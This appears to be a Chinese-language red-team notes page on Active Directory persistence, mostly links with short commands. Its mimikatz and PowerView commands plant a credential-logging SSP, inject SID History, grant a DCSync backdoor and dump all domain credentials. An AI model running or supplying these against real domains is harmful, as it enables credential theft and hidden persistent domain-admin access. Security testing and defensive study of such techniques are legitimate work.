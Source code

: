 

## 活动目录持久性技巧

https://adsecurity.org/?p=1929 DS恢复模式密码维护 DSRM密码同步

> Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：[巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)

[DCshadow](https://www.dcshadow.com/)

##### Security Support Provider

简单的理解为SSP就是一个DLL，用来实现身份认证

```
privilege::debug
misc::memssp
```

这样就不需要重启`c:/windows/system32`可看到新生成的文件kiwissp.log

##### [SID History](https://adsecurity.org/?p=1772)

SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户

```
mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"
```

##### [AdminSDHolder＆SDProp](https://adsecurity.org/?p=1906)

利用AdminSDHolder＆SDProp（重新）获取域管理权限

##### Dcsync后门

向域成员赋予Dcsync权限

```
Powerview.ps1
Add-DomainObjectAcl -TargetIdentity "DC=vulntarget,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose
```

在登录了test1域账户的机器上执行Dcsync利用操作

```
mimikatz "lsadump::dcsync /domain:vulntarget.com /all /csv"
```



##### 组策略

https://adsecurity.org/?p=2716 [策略对象在持久化及横向渗透中的应用](https://www.anquanke.com/post/id/86531)

##### Hook PasswordChangeNotify

http://www.vuln.cn/6812
